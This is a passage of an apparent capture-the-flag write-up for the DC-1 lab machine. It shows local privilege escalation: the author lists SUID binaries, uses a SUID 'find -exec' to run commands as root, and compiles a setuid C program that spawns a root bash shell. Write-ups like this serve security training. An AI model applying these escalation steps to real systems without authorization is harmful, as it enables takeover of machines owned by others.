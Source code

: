 So easy.   
  
flag4@DC-1:~$ id  
>uid=1001(flag4) gid=1001(flag4) groups=1001(flag4)  
  
flag4@DC-1:~$ cat flag4.txt   
>Can you use this same method to find or access the flag in root?  
>  
>Probably. But perhaps it's not that easy.  Or maybe it is?  
  
Now, the final task. Get root.  
  
flag4@DC-1:~$ uname -a  
>Linux DC-1 3.2.0-6-486 #1 Debian 3.2.102-1 i686 GNU/Linux  
  
flag4@DC-1:~$ find / -perm -g=s -o -perm -4000 ! -type l -maxdepth 3 -exec ls -ld {} \\; 2>/dev/null    
>-rwsr-xr-x 1 root root 88744 Dec 10  2012 /bin/mount  
>-rwsr-xr-x 1 root root 31104 Apr 13  2011 /bin/ping  
>-rwsr-xr-x 1 root root 35200 Feb 27  2017 /bin/su  
>-rwsr-xr-x 1 root root 35252 Apr 13  2011 /bin/ping6  
>-rwsr-xr-x 1 root root 67704 Dec 10  2012 /bin/umount  
>-rwsr-xr-x 1 root root 35892 Feb 27  2017 /usr/bin/chsh  
>-rwsr-xr-x 1 root root 45396 Feb 27  2017 /usr/bin/passwd  
>-rwsr-xr-x 1 root root 30880 Feb 27  2017 /usr/bin/newgrp  
>-rwsr-xr-x 1 root root 44564 Feb 27  2017 /usr/bin/chfn  
>-rwsr-xr-x 1 root root 66196 Feb 27  2017 /usr/bin/gpasswd  
>-rwsr-xr-x 1 root root 162424 Jan  6  2012 /usr/bin/find  
>-rwsr-xr-x 1 root root 937564 Feb 11  2018 /usr/sbin/exim4  
>-rwsr-xr-x 1 root root 9660 Jun 20  2017 /usr/lib/pt_chown  
>-rwsr-xr-x 1 root root 84532 May 22  2013 /sbin/mount.nfs  
  
Find it is.  
  
flag4@DC-1:~$ /usr/bin/find -exec whoami \\;  
>root  
  
flag4@DC-1:~$ /usr/bin/find -exec id \\;  
>uid=1001(flag4) gid=1001(flag4) euid=0(root) groups=0(root),1001(flag4)  
  
We can execute commands as root, so let's pop up a shell with a very simple c program:  
  
flag4DC-1:~$ cat shell.c   
>#include <stdio.h>  
>#include <stdlib.h>  
>#include <sys/types.h>  
>#include <unistd.h>  
>  
>int main()  
>{  
>setuid(0);  
>system("/bin/bash - ");  
>return 0;  
>}  
  
flag4@DC-1:~$ gcc shell.c -o shell  
  